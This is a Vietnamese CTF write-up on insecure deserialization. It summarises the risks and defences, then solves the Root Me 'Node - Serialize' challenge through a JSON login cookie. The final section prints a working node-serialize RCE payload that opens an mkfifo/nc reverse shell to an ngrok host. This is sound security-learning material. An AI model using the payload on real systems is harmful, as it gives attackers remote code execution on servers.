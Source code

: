 Insecure Deserialization có thể gây ra những tác hại nghiêm trọng đối với ứng dụng và người dùng như sau:

- Thực hiện các đoạn mã độc hại trên máy chủ của ứng dụng hoặc máy tính của người dùng, có thể dẫn đến mất dữ liệu hoặc tấn công từ chối dịch vụ (DDoS).
- Đánh cắp thông tin nhạy cảm, như tên đăng nhập, mật khẩu hay thông tin thẻ tín dụng.

## Cách phòng chống

Các cách phòng chống Insecure Deserialization bao gồm:

- Kiểm tra và xác thực dữ liệu được gửi đến từ bên ngoài trước khi tiến hành giải mã dữ liệu đó.
- Sử dụng các thư viện giải mã dữ liệu có độ tin cậy cao.
- Sử dụng các biện pháp bảo mật để giảm thiểu các cuộc tấn công từ bên ngoài mạng, bao gồm cập nhật các bản vá bảo mật và cấu hình hệ thống tường lửa.
- Cập nhật các bản vá bảo mật cho các ứng dụng và hệ thống phần mềm để giảm thiểu các lỗ hổng bảo mật.


# Root Me

## Root Me/Node - Serialize

![](https://hackmd.io/_uploads/H1LrVVPNn.png)

Link to chall: http://challenge01.root-me.org:59067/

### Phân tích

Vào chall em nhận được 1 form login như sau:

![](https://hackmd.io/_uploads/HJy64VwV3.png)

Sau khi đăng nhập thì em sẽ được set cho 1 cookie chính là json của thông tin đăng nhập mà em nhập:

![](https://hackmd.io/_uploads/r1gSS4D4h.png)

Sau đó em sẽ được chuyển hướng lại trang `/` và tại đây cookie của em sẽ được check.

![](https://hackmd.io/_uploads/HJp_r4D4n.png)

Và dĩ nhiên là không đúng rùi :<

Nhưng dựa theo tên bài là Node serialize em search về node serialize và tìm được 1 số bài khá thú vị: https://blog.websecurify.com/2017/02/hacking-node-serialize và https://exploit-notes.hdks.org/exploit/web/security-risk/nodejs-deserialization-attack/

Từ đây em tìm được payload để reverse shell và bus luôn

### Khai thác

Payload to reverse shell: 
```
{"userName":"123","passWord":"123","rce":"_$$ND_FUNC$$_function() {require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 0.tcp.ap.ngrok.io 15613 >/tmp/f', (error, stdout, stderr) => { console.log(stdout); }); } ()"}
```
